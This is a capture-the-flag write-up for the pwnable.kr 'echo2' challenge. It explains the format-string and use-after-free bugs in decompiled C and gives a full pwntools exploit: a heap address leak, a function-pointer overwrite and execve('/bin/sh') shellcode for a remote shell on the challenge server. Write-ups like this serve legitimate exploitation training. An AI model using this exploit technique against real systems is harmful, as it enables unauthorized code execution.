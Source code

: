 ```yaml
---
layout: page
title: pwnable.kr - echo2
category: pwnablekr
tags: [writeup, pwn, pwnablekr]
---
```



Same as echo1, except we got Format String Bug and Use-After-Free instead of BOF.

Checksec:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

Running binary:
```
hey, what's your name? : test

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> 2
hello test
%x.%x
521548d0.abc46350

goodbye test

- select echo type - ...
```

Here's the vulnerable UAF function:

```c
__int64 echo3()
{
  char *s; // ST08_8

  func_array->print_hello(func_array);
  s = (char *)malloc(0x20uLL);
  get_input(s, 0x20);
  puts(s);
  free(s);
  func_array->print_goodbye(func_array, 0x20LL);
  return 0LL;
}
```

At the beginning of `main` function there is `func_array` allocation:
```c
struct struct_func_array
{
  char name[24];
  void (__fastcall *print_hello)(void *);
  void (__fastcall *print_goodbye)(void *, signed __int64);
};

func_array = malloc(0x28uLL);
func_array->print_hello = (void (__fastcall *)(void *))greetings;
func_array->print_goodbye = (void (__fastcall *)(void *, signed __int64))byebye;
printf("hey, what's your name? : ", 0LL);
__isoc99_scanf("%24s", &name);
func_array->name = name;
```

Main function loop:
```c
do {
    while ( 1 ) {
        while ( 1 ) {
            puts("\n- select echo type -");
            puts("- 1. : BOF echo");
            puts("- 2. : FSB echo");
            puts("- 3. : UAF echo");
            puts("- 4. : exit");
            printf("> ", v3);
            v3 = &v6;
            __isoc99_scanf("%d", &v6);
            getchar();
            if ( v6 > 3 )
            break;
            ((void (__fastcall *)(const char *, unsigned int *))func[v6 - 1])("%d", &v6);
        }
        if ( v6 == 4 )
        break;
        puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)", &v6);
    v6 = getchar();
} while ( v6 != 'y' );
puts("bye");
```

```c
void cleanup()
{
  free(func_array);
}
```

To exploit UAF, we can call `cleanup` (`func_array` ptr will be freed and but into fastbin/tcache) and then `echo3` (`malloc` will return `func_ptr` and we wil overwrite pointers to `greetings` and `byebye`).

Last thing is to place shellcode somewhere (I used first 24 bytes send in `echo3`) and get address of it.

We can get the address in two ways:
* making additional malloc before `cleanup`. As `func_array` chunk will get freed, its first bytes (`func_array->name`) will be overwritten with pointer to next free chunk and we can leak that when `greetings` function will be called. It is a bit unreliable though, because heap offsets depends on libc version.
* use FMB, easily and reliably

The exploit:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

'''
~Gros
'''

from pwn import *
import re
import argparse
import subprocess
from binascii import *


BINARY_FILE = './echo2'
REMOTE = ('pwnable.kr', 9011)


def setup_connection():
    binary, libc, preload = None, None, False
    local_libc = '/lib/x86_64-linux-gnu/libc.so.6'
    task_libc = './libc.so.6'

    env = {}
    if args.PRELOAD:
        local_libc = task_libc
        env = {'LD_PRELOAD': task_libc}

    if args.BINARY:
        binary = ELF(BINARY_FILE)
        context.arch = binary.arch

    if args.REMOTE:
        if args.LIBC:
            libc = ELF(task_libc)
        s = remote(*REMOTE)
    else:
        if args.LIBC:
            libc = ELF(local_libc)
        
        s = process(BINARY_FILE, stderr=open('/dev/null', 'w+'), env=env)
        if args.GDB:
            context.terminal = ['gnome-terminal', '-e']
            breakpoints = []
            gdb.attach(s, exe=BINARY_FILE, gdbscript='\n'.join(['b *'+str(x) for x in breakpoints]))
            
    return s, binary, libc


if __name__ == '__main__':
    s, binary, libc = setup_connection()

    context.update(arch = 'amd64')

    # send name
    s.recvuntil("hey, what's your name? :")
    s.sendline('test')
    s.recvuntil('>')

    # leak with FMB
    payload = '%7$s'
    payload += 'A'*4
    payload += p64(0x602098)

    s.sendline('2')
    s.recvuntil('hello test\n')
    s.sendline(payload)
    leak = s.recvuntil('AAAA')[:-4].ljust(8, '\x00')
    leak = u64(leak)
    print('Heap leak: {}'.format(hex(leak)))

    # malloc, free
    s.sendline('3')
    s.recvuntil('hello ')
    s.sendline('nothing')

    # free
    s.sendline('4')
    s.recvuntil('(y/n')
    s.sendline('n')

    # UAF - leak
    s.sendline('3')
    s.recvuntil('hello ')
    leak2 = s.recvuntil('\n')[:-1].ljust(8, '\x00')
    leak2 = u64(leak2)
    shell_addr = leak + 0x30

    print('Heap leak2: {}'.format(hex(leak2)))
    print('Shellcode addr: {}'.format(hex(shell_addr)))

    # UAF - overwrite
    payload = asm('''xor    esi,esi
                    movabs rbx,0x68732f2f6e69622f
                    push   rsi
                    push   rbx
                    push   rsp
                    pop    rdi
                    push   0x3b
                    pop    rax
                    xor    edx,edx
                    syscall
                    nop
                    '''
                )
    payload += p64(shell_addr)
    assert len(payload) == 32, len(payload)

    s.send(payload)

    s.recvuntil('> ')
    s.interactive()
```
